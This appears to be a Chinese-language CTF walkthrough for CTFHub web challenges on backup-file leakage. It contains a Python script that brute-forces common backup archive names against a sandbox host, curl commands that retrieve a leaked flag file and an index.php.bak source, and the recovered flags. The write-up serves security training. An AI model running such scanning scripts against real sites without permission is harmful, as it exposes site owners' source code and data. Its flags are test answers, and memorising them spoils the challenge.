 根据题目描述，给了可能的文件名和后缀，那么，开始爆破吧

```python
import requests
import typing
import itertools

exts: typing.List[str] = [
    'tar', 'tar.gz', 'zip', 'rar'
]

filenames: typing.List[str] = [
    'web', 'website', 'backup', 'back', 'www', 'wwwroot', 'temp'
]

combinations: typing.List[str] = ['{}.{}'.format(filename, ext) for filename, ext in itertools.product(filenames, exts)]

for f in combinations:
    url: str = f"http://challenge-57f733049705e700.sandbox.ctfhub.com:10800/{f}"
    resp = requests.get(url)
    print(f"Trying: {f}")
    if (resp.status_code == 200):
        print(f"Found: {f}")
        with open(f, 'wb') as file:
            file.write(resp.content)
        break
```

```bash
<omitted ...>
Trying: back.rar
Trying: www.tar
Trying: www.tar.gz
Trying: www.zip
Found: www.zip
```

下载解压文件，有个叫 `flag_255227411.txt` 的文件

```bash
$ curl "http://challenge-57f733049705e700.sandbox.ctfhub.com:10800/flag_255227411.txt"
ctfhub{7f5b8ac5b1a9068f814f0217}
```

flag: `ctfhub{7f5b8ac5b1a9068f814f0217}`

### 信息泄露 - bak 文件

```bash
$ curl "http://challenge-aec80717f912ca94.sandbox.ctfhub.com:10800/index.php.bak"
<!DOCTYPE html>
<html>
<head>
    <title>CTFHub 备份文件下载 - bak</title>
</head>
<body>
<?php

// FLAG: ctfhub{7eca46b4361c84fb3cc5279c}

echo "Flag in index.php source code.";
?>
</body>
</html>
```

